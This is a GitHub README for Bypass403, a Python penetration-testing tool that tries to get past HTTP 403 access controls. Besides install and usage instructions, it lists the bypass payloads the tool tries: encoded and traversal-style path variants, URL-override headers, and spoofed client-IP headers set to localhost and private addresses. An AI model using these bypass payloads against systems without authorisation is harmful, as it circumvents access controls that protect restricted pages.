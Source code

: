 [![forthebadge made-with-python](http://ForTheBadge.com/images/badges/made-with-python.svg)](https://www.python.org/)
![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)



**Bypass403** automates the techniques used to circumvent access control restrictions on target pages. **Bypass403** will continue to be improved and it is open to contributions.

## Installation

1. Clone the repository to your machine. `git clone https://github.com/hackelite01/Bypass403.git`
2. Install required modules by running the code `pip install -r requirements.txt`
3. READY!

## Usage

**Arguments:**<br>

| Argument | Description | Examples | Note |
| -------- | ----------- | ------- | ---- |
| -u | single URL to scan | http://example.com or http://example.com/ | All these example usages are interpreted in the same way |
| -U | path to list of URLs | ./urllist.txt, ../../urllist.txt, etc.  | Just provide the path where the file is located :) |
| -d | single directory to scan | admin or /admin or admin/ or /admin/ | All these example usages are interpreted in the same way |
| -D | path to list of directories | ./dirlist.txt, ../../dirlist.txt, etc.  | Just provide the path where the file is located :) |

**Usage 1:** `python3 Bypass403.py -u https://example.com -d /secret`<br>
**Usage 2:** `python3 Bypass403.py -u https://example.com -D dirlist.txt`<br>
**Usage 3:** `python3 Bypass403.py -U urllist.txt -d /secret`<br>
**Usage 4:** `python3 Bypass403.py -U urllist.txt -D dirlist.txt`<br>

**IMPORTANT NOTE:** All the followings are interpreted the same. Therefore, which pattern you use is just a matter of preference.
- `python3 Bypass403.py -u https://example.com -d secret`<br>
- `python3 Bypass403.py -u https://example.com -d /secret`<br>
- `python3 Bypass403.py -u https://example.com -d /secret/`<br>
- `python3 Bypass403.py -u https://example.com -d secret/`<br>
- `python3 Bypass403.py -u https://example.com/ -d secret`<br>
***ALL THE SAME!***


## Output

The output of the program is saved (in the current directory) in a file with the name of the domain name given as input.<br>
For example: <br>
`python3 Bypass403.py -u https://example.com -d /secret` is given. Then the output is saved to `example.txt` in the current directory.
***

## Release Notes
**Changes in v2.0**: Considerable changes have been done in this version. The project is completely moved to Python 3 from Bash. New and wide variety of techniques have been added.<br>
<br>
**Changes in v1.1:** It's now possible to pass files (lists) to Bypass403 as input via arguments. Furthermore, two more test cases added: 
poisoning with 1)`X-Original-URL` and 2)`X-Rewrite-URL` headers. 

***

## To-Do List
- [ ] GUI
- [ ] Add Rate-Limit / Threads Option
- [ ] Add an Option for Scan Types (fast, normal, aggressive or only path manipulation / header manipulation)
- [ ] Export cURL Command for Each Request
- [ ] Add Parameters to Save Output According to HTTP Status Codes
- [ ] Add Parameters to Save Output According to Page Size Anomalies

## Which Cases Does This Tool Check?

### 1. Request Method Manipulation
- Convert GET request to POST request

### 2. Path Manipulation
- `/%2e/secret`
- `/secret/`
- `/secret..;/` 
- `/secret/..;/`
- `/secret%20`  
- `/secret%09`
- `/secret%00`
- `/secret.json`
- `/secret.css`
- `/secret.html`
- `/secret?`
- `/secret??`
- `/secret???`
- `/secret?testparam`
- `/secret#`
- `/secret#test`
- `/secret/.`
- `//secret//`
- `/./secret/./`

### 3. Overriding the Target URL via Non-Standard Headers
- `X-Original-URL: /secret`
- `X-Rewrite-URL: /secret`

### 4. Other Headers & Values 
**Headers:** 
- `X-Custom-IP-Authorization`
- `X-Forwarded-For`
- `X-Forward-For`
- `X-Remote-IP`
- `X-Originating-IP`
- `X-Remote-Addr`
- `X-Client-IP`
- `X-Real-IP`

**Values:**
- `localhost`
- `localhost:80`
- `localhost:443`
- `127.0.0.1`
- `127.0.0.1:80`
- `127.0.0.1:443`
- `2130706433`
- `0x7F000001`
- `0177.0000.0000.0001`
- `0`
- `127.1`
- `10.0.0.0`
- `10.0.0.1`
- `172.16.0.0`
- `172.16.0.1`
- `192.168.1.0`
- `192.168.1.1`
